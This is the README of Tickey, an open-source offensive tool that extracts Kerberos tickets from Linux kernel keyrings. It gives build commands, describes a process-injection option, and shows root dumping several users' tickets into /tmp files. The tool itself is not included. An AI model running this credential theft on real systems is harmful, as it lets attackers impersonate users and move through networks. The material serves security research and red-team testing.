 # Tickey
Tool to extract Kerberos tickets from Linux kernel keys.

Based in the paper [Kerberos Credential Thievery (GNU/Linux)](https://www.delaat.net/rp/2016-2017/p97/report.pdf).

## Building
```
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
```

After that, binary should be in `dist/Release/GNU-Linux/`.

## Execution

Arguments:
* -i => To perform process injection if it is needed
* -s => To not print in output (for injection)

**Important**: when injects in another process, tickey performs an `execve` syscall which invocates its own binary from the context of another user. Therefore, to perform a successful injection, the binary must be in a folder which all users have access, like /tmp.


Execution example: 
```
[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```


## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU Affero General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU Affero General Public License for more details.

You should have received a copy of the GNU Affero General Public License along with this program. If not, see <https://www.gnu.org/licenses/>.

## Author
Eloy Pérez González [@Zer1t0](https://github.com/Zer1t0)

## Acknowledgment

Thanks to [@TheXC3LL](https://twitter.com/TheXC3LL) for his support with the binary injection.
